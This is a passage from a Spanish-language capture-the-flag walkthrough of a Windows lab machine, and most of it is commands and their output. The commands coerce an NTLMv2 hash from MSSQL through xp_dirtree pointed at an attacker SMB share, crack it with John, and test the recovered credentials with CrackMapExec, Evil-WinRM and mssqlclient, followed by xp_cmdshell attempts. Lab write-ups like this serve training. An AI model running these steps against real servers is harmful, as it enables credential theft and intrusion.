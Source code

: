     ```bash
    xp_dirtree "\\10.10.14.8\EEEE"
    ```

Aqui podemos ver que tambien se puede interceptar el hash NTLMv2.

### Crackeo de hash NTLMv2 con John {-}

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Ya hemos podido crackear el hash NTLMv2 del usuario **mssql-svc**. Y como siempre cuando el servicio **SMB** esta abierto, 
nueva credencial obtenida, nueva credencial que validamos con CrackMapExec.

### Validacion de las creds de mssql-svc {-}

```bash
crackmapexec smb 10.10.10.125 -u 'mssql-svc' -p 'corporate568' -d WORKGROUP
```

CrackMapExec nos reporta un **[+]** quiere decir que las credenciales son validas. Nuevamente intentamos conectarnos por
WinRM

### Conexion con evil-winrm usuario mssql-svc {-}

Como tenemos credenciales y que sabemos que son validas, intentamos conectarnos con **Evil-WinRM**.

```bash
evil-winrm -i 10.10.10.125 -u 'mssql-svc' -p 'corporate568'
```

Aqui tampoco nos funciona.

### Conexion al servicio MSSQL usuario mssql-svc {-}

```bash
/usr/local/bin/mssqlclient.py WORKGROUP/mssql-svc:corporate568@10.10.10.125 -windows-auth

SQL> 
```

Intentamos el comando `xp_cmdshell`

```bash
xp_cmdshell "whoami"
#Output
[-] ERROR(QUERIER): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component
    'xp_cmdshell' because this component is turned off ...
```

Aqui el error es distincto al del otro usuario. Intentamos nuevamente modificar las configuraciones.

```bash
sp_configure "xp_cmdshell", 1
#Output
[-] ERROR(QUERIER): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
```

